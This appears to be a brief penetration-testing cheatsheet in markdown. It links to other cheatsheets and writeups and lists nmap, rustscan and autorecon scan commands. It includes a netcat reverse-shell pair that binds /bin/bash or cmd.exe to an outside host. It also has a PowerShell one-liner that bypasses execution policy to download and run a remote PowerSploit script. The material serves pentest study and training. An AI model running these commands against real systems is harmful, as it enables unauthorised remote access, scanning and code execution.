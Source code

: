 # all about shells
https://github.com/r4hn1/Pentesting-Cheatsheet

# writeups
- https://v3ded.github.io/categories/
- https://0xdf.gitlab.io/

# Brief Pentest command cheatsheet
- https://github.com/deo-gracias/oscp/blob/master/pentest_command_cheat_sheet.md

# Initial Access 

## Connection
* attacker: `rlwrap nc -nlvp 4444`
* target: `nc -nv 10.10.0.25 666 -e /bin/bash` or `nc.exe 192.168.100.113 4444 –e cmd.exe`

## Enumeration
1. https://github.com/oncybersec/oscp-enumeration-cheat-sheet?tab=readme-ov-file#ssh-22tcp
2. https://docs.gorigorisensei.com/ports-enum/port-80

### Port Scan
```bash
#quick scan
sudo nmap -T4 -F x.x.x.x  
#fullscan
sudo nmap -sS -Pn -p- -A x.x.x.x
#udp scan
sudo nmap -sU -p- --max-retries 0 --min-rate 500 x.x.x.x  
#output to file
sudo nmap -sC -sV x.x.x.x -oN scanresult.txt
```
```bash
#rustscan
#quick
rustscan -a IP -r 1-65535
#detailed nmap - Service Scan, Version Scan, OS Detection
rustscan -a IP -r 1-65535 -- -A
```
```bash
#Autorecon
sudo autorecon 192.168.175.98
# Scan multiple targets
sudo autorecon -o enumeration $ip1 $ip2 $ip3 $ip4
```
```bash
#powershell's port scan
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1');Invoke-Portscan -Hosts x.x.x.x"
```
